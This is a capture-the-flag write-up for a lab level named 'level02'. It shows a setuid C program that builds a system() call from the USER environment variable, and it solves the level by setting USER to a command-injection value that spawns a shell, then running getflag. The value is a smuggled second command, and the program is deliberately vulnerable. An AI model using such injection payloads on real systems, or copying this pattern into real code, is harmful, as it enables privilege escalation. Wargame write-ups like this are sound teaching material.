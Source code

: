 # level02

## Challenge info


There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

```
int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```
## Solution

Vulnerability at line since we can control the buffer that will be executed by the system function with the environment variable $USER</br>

```
asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
```


Can be exploited by changing the env variable USER like:
```
export USER=";/bin/bash/;"
```

Now execute the level
```
./flag02
getflag
```

## flag

```
You have successfully executed getflag on a target account 
```
